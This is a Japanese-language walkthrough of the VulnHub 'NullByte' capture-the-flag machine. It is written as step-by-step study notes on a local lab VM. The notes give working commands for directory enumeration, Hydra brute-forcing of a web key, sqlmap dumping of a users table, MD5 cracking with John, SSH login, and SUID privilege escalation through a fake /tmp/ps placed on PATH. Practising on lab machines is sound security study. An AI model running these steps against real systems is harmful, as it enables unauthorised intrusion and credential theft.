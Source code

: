 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- functionKeyの12を押すとソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirbで使うコンテンツ辞書を見てみる
- `wc /usr/share/dirb/wordlists/*.txt`
- ひとつ具体的に見てみる
- `head /usr/share/dirb/wordlists/small.txt`
```
0
00
```
- これは`http://192.168.56.108/0`,`http://192.168.56.108/00`のように順に入っていく
### dirb
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う
### 怪しい画像ファイルを調査する
- `wget http://$IP:80/main.gif`
- ファイルを調べる
  - `strings main.gif` または `exiftool main.gif`の両方あるが、後者の方が有能。exiftoolコマンドは画像などのメタデータを調べるコマンド
  - 謎のコメントが得られる`kzMb5nVYJw`

### Webサイト 
- さっきのを最後につけてサイトを見る
- Hydraで攻略
  - `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### 得られたkeyで認証する
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```
- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
 
### SQLMap(攻略2)
- データベースの中身を確認する
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`
- sethのデータベースの中身を見る
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`

- ramsesのpassをコピーする

### Base64でデコードする
- 上でコピーしたのがなぜBase64を使うのはよくわからん。多分どこかに書いてあるのだと思うが、、
- `echo -n "ペースト=" | base64 -d`
  - ペーストした最後に`=`イコールをつける、理由は6の座学にあり
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号 
- フォルダを探索する
- `cat .bash_hitory`

### 怪しいプログラムを調べる
- `cd /var/www/backup`
- 謎のコマンドが実行されている `./procwatch`
- これはどこかで見たことのあるコマンド?これは完全にバグで、これを利用する
- `ls -al` SUIDファイルであることがわかる
- `echo $PATH`
  - PATHは左から順に読み込まれるので、/tmpディレクトリをはじめに置いて、そこに偽のpsコマンド(ファイル)をおく 
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- paファイルにshを実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

